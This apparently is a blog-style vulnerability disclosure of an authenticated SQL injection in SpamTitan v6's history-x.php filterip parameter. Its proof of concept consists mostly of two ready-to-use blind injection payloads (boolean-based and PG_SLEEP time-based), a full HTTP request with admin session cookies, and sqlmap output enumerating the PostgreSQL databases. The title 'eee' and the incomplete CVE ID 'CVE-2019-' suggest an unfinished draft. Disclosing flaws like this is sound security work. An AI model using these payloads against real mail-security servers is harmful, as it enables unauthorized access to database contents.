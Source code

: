 ```yaml
---
layout: post
title:  "eee"
date:   2019-05-05 19:51:02 +0700 
categories: [cve]
---
```


Vulnerability: SQL Injection

Vendor: TitanHQ is a trading name of Copperfasten Technologies, 

Product: SpamTitan

Version affected: SpamTitan v6, which was the latest available version as of 05/05/2019

#### Product description:

"SpamTitan is a full-service email security solution which protects your business, your employees and your clients.
The solution is extraordinarily simple to set up and manage and provides among its many features 99.97% spam detection,
virus and malware blocking, authentication control, outbound scanning as well as robust reporting structures.
Central to everything we do is our service commitment to our worldwide client base, start our free trial today and see why so many
global brands trust us with their business." as per statement on TitanHQ Spamtitan website. 

* CVE ID: CVE-2019-
* CWE ID: CWE-89

##### Proof of Concept

The authenticated SQL Injection vulnerability can be exploited by issuing a specially crafted HTTP GET request. SpamTitan v6 application fails to properly sanitize untrusted data before adding it to a SQL query. A malicious attacker can include own SQL commands which database will execute.

Identified vulnerable parameters: filterip  

---
Parameter: filterip (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: getHistory&sortdir=yui-dt-desc&sortkey=ts&startIndex=0&results=100&alltypes=1&historytype=C&setperiod=2&starttime=&endtime=&localonly=1&now=1556966449&filterflow=0&filterfrom=&filterto=&filterid=&filterscoretype=scoreany&filterscore=&filterdelivery=Any&filtersubject=&filterip=' AND (SELECT (CASE WHEN (8159=8159) THEN NULL ELSE CAST((CHR(87)||CHR(70)||CHR(105)||CHR(97)) AS NUMERIC) END)) IS NULL AND 'ZEZl'='ZEZl

    Type: AND/OR time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: getHistory&sortdir=yui-dt-desc&sortkey=ts&startIndex=0&results=100&alltypes=1&historytype=C&setperiod=2&starttime=&endtime=&localonly=1&now=1556966449&filterflow=0&filterfrom=&filterto=&filterid=&filterscoretype=scoreany&filterscore=&filterdelivery=Any&filtersubject=&filterip=' AND 6154=(SELECT 6154 FROM PG_SLEEP(5)) AND 'ahTq'='ahTq
---


#### Request:
{% highlight ruby %}
GET /history-x.php?getHistory&sortdir=yui-dt-desc&sortkey=ts&startIndex=0&results=100&alltypes=1&historytype=C&setperiod=2&starttime=&endtime=&localonly=1&now=1556966449&filterflow=0&filterfrom=&filterto=&filterid=&filterscoretype=scoreany&filterscore=&filterdelivery=Any&filtersubject=&filterip= HTTP/1.1
Host: 10.0.0.120
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: st-lastroletype=admin; st-domains=domain%3Ayui-dt-asc%3A15; st-trust=ip%3Ayui-dt-asc%3A15; st-smart=sender%3Ayui-dt-asc%3A15; st-whiteip=ip%3Ayui-dt-asc%3A15; st-blackip=ip%3Ayui-dt-asc%3A15; st-tls=domain%3Ayui-dt-asc%3A15; st-tld=tld%3Ayui-dt-asc%3A15; st-spf=ip%3Ayui-dt-asc%3A15; st-etrnblock=ip%3Ayui-dt-asc%3A15; st-etrnallow=ip%3Ayui-dt-asc%3A15; st-dkim=domain%3Ayui-dt-asc%3A15; st-greyip=ip%3Ayui-dt-asc%3A15; st-rbl=ip%3Ayui-dt-asc%3A15; st-greyname=name%3Ayui-dt-asc%3A15; st-greyrcpt=name%3Ayui-dt-asc%3A15; st-domainpolicies=domain%3Ayui-dt-asc%3A15; st-userpolicies=policy_name%3Ayui-dt-asc%3A15; st-realmadmins=email%3Ayui-dt-asc%3A15; st-admins=email%3Ayui-dt-asc%3A15; st-domainadmins=email%3Ayui-dt-asc%3A15; st-realms=name%3Ayui-dt-asc%3A15; PHPSESSID=77bf2e88fe78fe4db58e35f886be8fa4; st-authdomains=domain%3Ayui-dt-asc%3A5; st-disclaimers=domain%3AASC%3A25; st-disclaimers-exemptions=email%3AASC%3A25; wblist-email=email%3Ayui-dt-asc%3A25; wblist-domain=email%3Ayui-dt-asc%3A25; keywords-W=pattern%3Ayui-dt-asc%3A5; keywords-B=pattern%3Ayui-dt-asc%3A5; qset=bspam_level%3Ayui-dt-asc%3A3%3A150; HistoryRequestOpts=100%3A2; st-todaysreports=ts%3Ayui-dt-asc%3A25; st-scheduledreports=email%3Ayui-dt-asc%3A25; st-archivereports=ctime%3Ayui-dt-asc%3A25; st-alerts=name%3Ayui-dt-asc%3A10; st-roles=name%3Ayui-dt-asc%3A15; st-ratecontrols=10; locale=en_US; st-filter=name%3Ayui-dt-asc%3A10; HistoryDisplayOpts=Y%3AY%3AY%3AY%3AY%3AY%3AY%3AY%3AY%3AY; HistoryClusterOpts=Y%3AY
Upgrade-Insecure-Requests: 1
{% endhighlight %}

#### SQLmap tool (Automatic SQL injection and database takeover tool) used to retrieve available databases: 
{% highlight ruby %}
root@kali:~# sqlmap -r spamtitan-sql.txt --level=5 --risk=3 --dbms=postgres -p filterip --dbs
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.5#pip}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting at 08:22:44

[08:22:44] [INFO] parsing HTTP request from 'spamtitan-sql.txt'
[08:22:44] [WARNING] provided value for parameter 'filterip' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[08:22:44] [INFO] testing connection to the target URL
[08:22:44] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: filterip (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: getHistory&sortdir=yui-dt-desc&sortkey=ts&startIndex=0&results=100&alltypes=1&historytype=C&setperiod=2&starttime=&endtime=&localonly=1&now=1556966449&filterflow=0&filterfrom=&filterto=&filterid=&filterscoretype=scoreany&filterscore=&filterdelivery=Any&filtersubject=&filterip=' AND (SELECT (CASE WHEN (8159=8159) THEN NULL ELSE CAST((CHR(87)||CHR(70)||CHR(105)||CHR(97)) AS NUMERIC) END)) IS NULL AND 'ZEZl'='ZEZl

    Type: AND/OR time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: getHistory&sortdir=yui-dt-desc&sortkey=ts&startIndex=0&results=100&alltypes=1&historytype=C&setperiod=2&starttime=&endtime=&localonly=1&now=1556966449&filterflow=0&filterfrom=&filterto=&filterid=&filterscoretype=scoreany&filterscore=&filterdelivery=Any&filtersubject=&filterip=' AND 6154=(SELECT 6154 FROM PG_SLEEP(5)) AND 'ahTq'='ahTq
---
[08:22:44] [INFO] testing PostgreSQL
[08:22:44] [INFO] confirming PostgreSQL
[08:22:44] [INFO] the back-end DBMS is PostgreSQL
web application technology: Apache
back-end DBMS: PostgreSQL
[08:22:44] [WARNING] schema names are going to be used on PostgreSQL for enumeration as the counterpart to database names on other DBMSes
[08:22:44] [INFO] fetching database (schema) names
[08:22:44] [INFO] fetching number of databases
[08:22:44] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[08:22:44] [INFO] retrieved: 
you provided a HTTP Cookie header value. The target URL provided its own cookies within the HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y

[08:22:46] [WARNING] (case) time-based comparison requires larger statistical model, please wait.............................. (done)
[08:22:48] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[08:23:09] [INFO] adjusting time delay to 2 seconds due to good response times
3
[08:23:09] [INFO] retrieved: 
[08:23:09] [WARNING] (case) time-based comparison requires larger statistical model, please wait.............................. (done)
[08:23:18] [INFO] adjusting time delay to 1 second due to good response times
information_schema
[08:24:23] [INFO] retrieved: 
[08:24:23] [INFO] retrieved: pg_catalog
[08:25:04] [INFO] retrieved: 
[08:25:04] [INFO] retrieved: public
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
{% endhighlight %}

#### References
1. https://www.owasp.org/index.php/SQL_Injection
2. https://www.titanhq.com/spamtitan
3. https://www.spamtitan.com/wp-content/uploads/2016/02/Titan_HQ_SpamTitan_Gateway_datasheet_.pdf
4. https://www.spamtitan.com/spamtitan-gateway-sign-up-confirmation/
